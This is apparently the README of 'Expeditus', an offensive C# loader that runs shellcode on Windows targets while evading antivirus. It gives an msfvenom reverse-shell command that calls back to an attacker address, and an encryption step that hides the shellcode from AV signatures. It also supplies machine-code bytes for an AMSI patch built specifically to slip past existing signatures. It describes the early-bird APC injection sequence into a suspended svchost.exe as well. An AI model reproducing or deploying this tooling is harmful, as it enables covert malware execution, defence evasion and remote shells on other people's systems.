 
# Expeditus

Expeditus is a C# loader/dropper that executes shellcode (such as that generated by msfvenom) on a target Windows system. It combines several offensive techniques in order to attempt to do this with some level of stealth.

* Encryption of shellcode before compilation of loader to obfuscate obvious AV signatures in the assembly (see [MITRE ATT&CK ID: T1027](https://attack.mitre.org/techniques/T1027/))
* Patching of amsi.dll for evasion of host-based defences at runtime (see [MITRE ATT&CK ID: T1562.001](https://attack.mitre.org/techniques/T1562/001/))
* Shellcode injection into svchost.exe via the Asynchronous Procedure Call (APC) queue (see [MITRE ATT&CK ID: T1055.004](https://attack.mitre.org/techniques/T1055/004/))

Before performing the process injection, the loader first patches amsi.dll in memory so that the AmsiScanBuffer() function always returns E_INVALIDARG and the final scan result is AMSI_RESULT_CLEAN. This should allow the process injection to proceed without as much scrutiny from AV, although there is also a fair risk that kernel32 is hooked and so our Windows API calls can be examined. Unhooking of kernel32 is a planned improvement for future work.

The loader then uses the 'early bird' variation of the APC queue code injection technique. A new svchost.exe process is created in a suspended state. A new buffer is created inside it and the decrypted shellcode is copied into this. A new entry is added to the main thread's APC queue with a pointer to the shellcode buffer. The main thread is then resumed, the Expeditus loader process exits, and the independent svchost.exe process executes the user's shellcode.

## Usage

First of all the user needs to write or otherwise generate some suitable shellcode that they would like to run on the target system. For example:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=443 EXITFUNC=thread -f powershell`

The above command gives output of the following form:

`[Byte[]] $buf = 0xfc,0x48,0x83...`

This shellcode should then be copied and pasted into the payload-encrypt.ps1 script which can then be executed. The output should look like this:

`Encrypted payload to paste into strEncryptedPayload variable in expeditus.cs: lCfnjZWA....WsA==`

The output is the shellcode after being XOR encrypted and then Base64 encoded. It should be copied and pasted into the expeditus.cs file in the strEncryptedPayload variable which you will find around line 119.

Finally, the expeditus.cs loader can now be compiled ready to use:

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:exe /out:expeditus.exe expeditus.cs`

Running expeditus.exe on the target should result in a new svchost.exe process appearing. The expeditus.exe process will termainate immediately and the (far less suspicious) svchost.exe process will remain until the shellcode exits (for example, when you terminate your reverse shell) at which point the svchost.exe process also terminates.

## Technical Details

### In-memory patching of amsi.dll

See the [memory patching AMSI bypass](https://rastamouse.me/memory-patching-amsi-bypass/) blog post by Rasta Mouse for a detailed explanation of this technique.

As far as implementing it in our loader goes, we just need to make sure that our patch of the AmsiScanBuffer() function somehow places 0x80070057 (E_INVALIDARG) into the EAX register and then returns. We have not used the simplest and most obvious method of achieving this (mov eax, 0x80070057; ret) that is used in the blog post. This is because many AV products now have a signature to match those specific bytes. Instead we use the following code to get the same result while bypassing the existing AV signatures.
			
`and eax,0x00000000`

`add eax,0x90940031`

`sub eax,0x108CFFDA`

`ret`
			
We place zero into EAX by performing an AND of its current (irrelevant) value with 0x00000000. We then add 0x90940031 to it and subtract 0x108CFFDA which gets us to our required value of 0x80070057.

Putting those instructions through an assembler gives us the machine code for our patch.

`byte[] amsiScanBufferPatch = {0x83,0xE0,0x00,0x05,0x31,0x00,0x94,0x90,0x2D,0xDA,0xFF,0x8C,0x10,0xC3};`

The rest of the Amsipatch class is self-explanatory. We simply look up the address of the AmsiScanBuffer() function and overwrite the first few bytes of it with our patch. 

### Early bird APC Queue code injection

The shellcode is stored inside a local variable in expeditus.cs in encrypted form to at least avoid detection of the shellcode in the static .NET assembly. When it is executed, this is decrypted back to the raw shellcode in a buffer in memory after the amsi.dll patch has been applied.

We then make several API calls to kernel32 in order to perform our chosen process injection technique.

* CreateProcess is used to create a new svchost.exe process in a suspended state
* VirtualAllocEx is used to allocate memory to a new readable and writeable (PAGE_READWRITE) buffer inside the svchost.exe process the same size as the shellcode
* WriteProcessMemory is used to copy the contents of the shellcode buffer in the expeditus.exe process to the new buffer in the svchost.exe process
* VirtualProtectEx is used to change the new buffer's memory protection status to readable and executable (PAGE_EXECUTE_READ)
* OpenThread is used to get a pointer to the main thread of the svchost.exe process
* QueueUserAPC is used to add a pointer to the shellcode buffer to the main thread's APC queue
* ResumeThread is used to resume the main thread

Once this simple procedure has completed the expeditus.exe process terminates leaving behind a legitimate svchost.exe process with our shellcode queued to it's main thread.
		
			
